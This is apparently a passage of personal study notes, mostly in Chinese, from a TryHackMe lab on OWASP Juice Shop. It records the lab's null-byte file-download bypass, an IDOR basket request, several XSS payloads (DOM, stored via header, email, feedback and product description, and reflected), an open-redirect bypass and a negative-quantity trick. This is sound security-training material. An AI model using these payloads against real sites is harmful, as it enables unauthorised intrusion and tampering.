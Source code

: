 			=> mc.safesearch@juice-sh.op : Mr. N00dles 
			
			-> 下載備份檔
				=> Poison Null Byte %00
					--> NULL 終止符 : 告訴伺服器在該點終止，從而將字串的其餘部分清空
					--> URL 中 NULL 位元組的百分號必須自行編碼 (%25 = %)
				=> /ftp/package.json.bak%2500.md
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Broken Access Control
		--> F12 :  http://10.10.118.205 /main-es2015.js
			=> path：administration
			=> http://ip:port/#/administration
			
		--> GET /rest/basket/1 HTTP/1.1 =>  GET /rest/basket/2 HTTP/1.1
		
		--> http://MACHINE_IP /#/administration
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> Cross-Site Scripting XSS		
		--> DOM
			=> 搜尋欄 : <iframe src="javascript:alert(`xss`)">
			=> 搜尋欄 : <script>alert("XSS1")</script>
		--> Stored XSS 
			=> HTTP-Header XSS  
				--> GET /rest/saveLogin) when logout
				--> True-Client-IP  標頭與 X-Forwarded-For 標頭類似
				--> True-Client-IP : <iframe src="javascript:alert(`xss`)">
				
			=> 客戶端 : 電子郵件 XSS
				-->  Post /api/Users
					--> {"email": "<script>alert(\"XSS2\")</script>", "password":""}
			=> 伺服器端 : 
				--> Post as feedback
					--> <<script>alert("XSS3")</script>script>alert("XSS3")<</script>/script>
				
			=> description XSS
				--> PUT /api/Products/9 HTTP/1.1
				--> "description": "<script>alert(\"XSS4\")</script>",
		--> 反射型 XSS : 
			--> history
			--> id=<iframe src="javascript:alert(`xss`)">
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> challenges
		--> /#/score-board/	
		--> 以其他用戶的名義發布一些反饋 : {"UserId":2,"rating":2,"comment":"1"}	
		--> NULL 位元組 : %00
			--> 付款 : http://baseurl/redirect?to=https://google.de%00https://gratipay.com/bkimminich
		
		--> 負值 error :
			--> 更改購物籃中產品數量的請求 {"quantity": -500}
		--> 將 Bender 的密碼更改為 slurmCl4ssic
			--> {"status":"success","data":{"id":3,"email":"bender@juice-sh.op","password":"fa3360bfd5e190cb65a113c198dfa164","createdAt":"2015-09-03 05:24:11.000 +00:00","updatedAt":"2015-09-03 05:24:11.000 +00:00"}
		--> 將 O-Saft 產品描述中的連結更改為http://kimminich.de
		--> 復活節彩蛋
		--> 偽造優惠券代碼
## Advanced Client-Side Attacks : 
	--> https://tryhackme.com/module/advanced-client-side-attacks	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> XSS :
		--> 同源策略（SOP）
			--> 防止一個網頁上的惡意腳本取得對另一個頁面上敏感資料的存取權
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> JS : F12=>Console
			--> alert("XSS")